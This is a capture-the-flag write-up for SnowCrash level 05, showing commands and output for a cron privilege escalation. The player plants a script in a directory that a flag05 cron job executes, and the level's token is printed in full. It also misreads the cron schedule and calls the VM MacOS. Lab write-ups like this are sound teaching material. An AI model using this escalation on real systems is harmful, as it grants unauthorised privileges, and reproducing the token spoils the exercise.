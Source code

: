 # Level 05

## Vulnerability
Privilege escalation, cron

## Context
when we ssh log in directly to level05, we see the message ```You have new mail.```

## Solution
Lets investigate the mail hint. Cron on MacOS saves mail to /var/mail/{user}.
```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
User flag05 informs us they set up a cron job to run a script /usr/sbin/openarenaserver every 30 seconds.

Lets have a look at the script.
```
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```
We see this script is run with user flag05 permissions. Unfortunately I don't have permission to edit this file (and have it call getflag). So lets investigate what this script does.
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
This script will run all files in /opt/openarenaserver in a bash shell.
Thus we should create a bash script to call getflag in /opt/openarenaserver/.
```
level05@SnowCrash:~$ echo "getflag > /dev/shm/flag" > /opt/openarenaserver/getflag.sh
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/getflag.sh
```
wait a minute... and...
```
level05@SnowCrash:~$ cat /dev/shm/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
